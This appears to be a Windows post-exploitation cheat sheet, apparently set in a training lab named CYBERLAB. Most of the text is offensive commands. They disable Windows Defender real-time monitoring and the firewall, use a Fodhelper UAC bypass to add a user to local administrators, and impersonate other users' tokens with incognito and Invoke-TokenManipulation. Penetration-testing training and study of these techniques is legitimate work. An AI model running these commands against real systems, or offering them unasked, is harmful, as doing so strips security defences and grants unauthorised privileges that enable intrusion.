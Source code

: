 
## Windows Defender

```powershell
# Disable Windows Defender
Set-MpPreference -DisableRealtimeMonitoring $true
Set-MpPreference -DisableIOAVProtection $true

# Disable Firewall
## cmd.exe
netsh advfirewall set allprofiles state off

## powershell.exe
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False
```

##  User Account Control (UAC)

In case you are a member of the local administrators group, but you still have the *Medium Mandatory Level* label, it is necessary to bypass the *User Account Control (UAC)*:

```powershell
# FodhelperUACBypass.ps1
. .\FodhelperUACBypass.ps1
FodhelperUACBypass -program "cmd.exe"
FodhelperUACBypass -program "cmd.exe /c powershell.exe"
FodhelperUACBypass -program "cmd.exe /c net localgroup administrators CYBERLAB\STUDENT01 /add"
```

Alternatively, you can use [SharpBypassUAC](https://github.com/FatRodzianko/SharpBypassUAC).

## Token Manipulation

Tokens can be impersonated from other users with a session/running processes on the machine. A similar effect can be achieved by using e.g. CobaltStrike to inject into said processes.

### Incognito

```powershell
# A SYSTEM shell is required
.\PsExec64.exe -s -i -d powershell.exe

# Show tokens on the machine
.\incognito.exe list_tokens -u

# Start new process with token of a specific user
.\incognito.exe execute "CYBERLAB\STUDENT2" C:\Windows\system32\calc.exe
.\incognito.exe execute -c "CYBERLAB\STUDENT2" powershell.exe
```

### Invoke-TokenManipulation

```powershell
# Show all tokens on the machine
Invoke-TokenManipulation -ShowAll

# Show only unique, usable tokens on the machine
Invoke-TokenManipulation -Enumerate

# Start new process with token of a specific user
Invoke-TokenManipulation -ImpersonateUser -Username "CYBERLAB\STUDENT2"

# Start new process with token of another process
Invoke-TokenManipulation -CreateProcess "C:\Windows\system32\calc.exe" -ProcessId 500
```
